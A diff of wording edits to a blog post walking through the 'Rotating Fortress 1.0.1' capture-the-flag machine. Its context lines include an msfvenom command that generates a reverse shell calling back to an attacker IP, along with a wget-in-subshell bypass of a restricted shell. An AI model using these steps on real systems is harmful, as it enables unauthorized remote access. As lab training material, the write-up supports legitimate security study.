

editorial

Changed region(s): [[0.0, 0.5625, 0.2188, 0.7188]]

diff --git a/_posts/2018-08-15-rotating-fortress-1.0.1-walkthrough.md b/_posts/2018-08-15-rotating-fortress-1.0.1-walkthrough.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 date: 2018-08-15 07:37:27 +0000
-last_modified_at: 2018-08-16 10:50:40 +0000
+last_modified_at: 2018-08-16 16:03:15 +0000
 title: "Rotating Fortress: 1.0.1 Walkthrough"
 subtitle: "I'm Spinning Around"
 category: Walkthrough
@@ -74,7 +74,7 @@ This brings us to the next stage.
 
 To be honest, the page was giving a lot of Mandarin's Lessons vibe in Iron Man 3. I got petrified for a while. I didn't know what to think until hours later. :laughing:
 
-I did my best to determine the directories and files starting at this level. This is what I find.
+I did my best to determine the directories and files at this level. This is what I found.
 
 + `/resources` has directory indexing
 + `/icons` has directory indexing
@@ -102,7 +102,7 @@ Apparently not, but look what happens when you supply `backd00r_pass123` as the 
 
 ![GDB](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/adb17656.png)
 
-Internally, the program is comparing `backd00r_pass123` with `xBspsiONMSNXeVuiomF`.
+The program is comparing `backd00r_pass123` with `xBspsiONMSNXeVuiomF`.
 
 I think I've seen enough. Let's quit the debugger and enter `xBspsiONMSNXeVuiomF` as the password.
 
@@ -132,7 +132,7 @@ echo
 echo "-----"
 ```
 
-Since we don't know the key (hey, I don't read Martian), let's loop the script through 1 to 99 for each message.
+Since we don't know the key (I don't read Martian you know), let's loop the script through key 1 to 99 for each message.
 
 _Message 1. The key is 52 or 84._
 
@@ -253,7 +253,7 @@ OK. Let's go to `/chat.php`.
 
 ![chat.php](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/4c88b34b.png)
 
-The chat page is more of a distraction than anything useful, while the **Download** button, allows you to download `/papa_legba.zip`. The archive contains the following files.
+The chat page is more of a distraction than anything useful, meanwhile the **Download** button, allows you to download `/papa_legba.zip`. The archive contains the following files.
 
 ```
 # unzip -l papa_legba.zip
@@ -466,9 +466,9 @@ Let's enter the flags we have so far.
 
 ![One-Way Shell](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/5796446b.png)
 
-Zeus' 1-way shell has a weakness—it allows the use of subshell. To bypass the restricted 1-way shell, I'm transferring a reverse shell over to `/tmp/rev` with `wget` running in a subshell. Over at my machine, I'm hosting a reverse shell (generated with `msfvenom`) with Python **SimpleHTTPServer** module.
+The **ZEUS' 1-WAY SHELL** has a weakness—it allows the use of subshell. To bypass the restricted it, I transferred a reverse shell over to `/tmp/rev` with `wget` running in the subshell. Over at my machine, I hosted a reverse shell (generated with `msfvenom`) with the Python **SimpleHTTPServer** module. Here's what I did.
 
-On my machine, I use the following `msfvenom` options to generate the reverse shell.
+First, I use the following `msfvenom` options to generate the reverse shell on my machine.
 
 ```
 # msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444 --platform linux -a x64 -f elf -o rev
@@ -478,21 +478,19 @@ Final size of elf file: 194 bytes
 Saved as: rev
 ```
 
-_Here, I'm executing `wget` in a subshell._
+_The image below shows the execution of `wget` in a subshell._
 
 ![wget](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/9f483d07.png)
 
-_The `wget` is successful._
+_The image below shows that `wget` was successful._
 
 ![SimpleHTTServer](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/464e989a.png)
 
-Let's get ourselves a proper shell.
-
-_Here, I'm making `rev` executable._
+_The image below shows the command to make `rev` executable, and the execution of `rev`._
 
 ![chmod +x](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/1e11d8ed.png)
 
-_Caught the reverse shell, and spawning a proper shell._
+_The image below shows the reverse shell caught by `nc`, and the command to spawn a proper shell._
 
 ![Reverse Shell](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/78dd1c75.png)
 
